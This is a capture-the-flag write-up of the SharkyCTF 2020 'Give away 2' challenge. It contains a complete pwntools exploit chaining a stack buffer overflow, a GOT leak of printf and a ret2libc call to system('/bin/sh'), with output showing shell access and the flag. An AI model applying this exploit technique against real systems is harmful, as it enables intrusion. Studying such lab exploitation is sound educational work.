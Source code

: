 # SharkyCTF 2020

## Give away 2

>293
>
> Make good use of this gracious give away.
>
> `nc sharkyctf.xyz 20335`
>
> Creator: Hackhim
>
> [`give_away_1`](give_away_2) [`libc-2.27.so`](libc-2.27.so)

Tags: _pwn_ _bof_ _x86-64_ _rop_


## Summary

Overflow buffer; `main` address leak, followed by libc leak, and then a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary; buffer overflow vulnerability.

    
### Decompile with Ghidra

```c
undefined8 main(void)

{
  init_buffering();
  printf("Give away: %p\n",main);
  vuln();
  return 0;
}
```

Address of `main` leaked.  However, with PIE/ASLR and no `win` function, we'll have to leak libc ourselves and call `vuln` for a 2nd pass.

```c
void vuln(void)

{
  char local_28 [32];
  
  fgets(local_28,0x80,stdin);
  return;
}
```

`32` != `0x80` (128).  A roomy vulnerability.

`local_28` is `0x28` bytes above the return address.


## Exploit

### First Pass

```python
#!/usr/bin/python3

from pwn import *

p = process('./give_away_2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#p = remote('sharkyctf.xyz', 20335)
#libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

p.recvuntil('Give away: ')
main = int(p.recvline().strip(),16)

binary = ELF('./give_away_2')
procbase = main - binary.symbols['main']
print('procbase: ' + hex(procbase))

rop = ROP('./give_away_2')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
    print('pop_rdi: ' + hex(pop_rdi + procbase))
except:
    print("no ROP for you!")
    sys.exit(1)

payload  = 0x28 * b'A'
payload += p64(procbase + pop_rdi + 1)
payload += p64(procbase + pop_rdi)
payload += p64(procbase + binary.got['printf'])
payload += p64(procbase + binary.plt['printf'])
payload += p64(procbase + binary.symbols['vuln'])

# check load
if payload.find(b'\xa0') != -1:
    print("payload has NL!")
    print(payload)
    sys.exit(1)

p.sendline(payload)
```

> The extra `ret` (`payload += p64(procbase + pop_rdi + 1)`) is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

The first pass will collect the leaked `main` and compute base process address, with that + GOT we can leak the address of `printf` by having `printf` emit its own address.

Lastly, we have to return back to `vuln` for the second pass.


### Second Pass

```python
printf=u64(p.recv(6)+b'\x00\x00')
libcbase = printf - libc.symbols['printf']
print("libcbase: " + hex(libcbase))

payload  = 0x28 * b'A'
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])

# check load
if payload.find(b'\xa0') != -1:
    print("payload has NL!")
    print(payload)
    sys.exit(1)

p.sendline(payload)
p.interactive()
```

With address of `printf` leaked, computing the base of libc is trivial.

The new payload just pops the address of `/bin/sh` off the stack and calls `system` for a shell.

Output:

```
# ./exploit.py
[+] Opening connection to sharkyctf.xyz on port 20335: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/sharkyctf2020/giveaway2/give_away_2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
procbase: 0x564a0f699000
[*] Loading gadgets for '/pwd/datajerk/sharkyctf2020/giveaway2/give_away_2'
pop_rdi: 0x564a0f699903
libcbase: 0x7fe5d4cac000
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{It's_time_to_get_down_to_business}
```
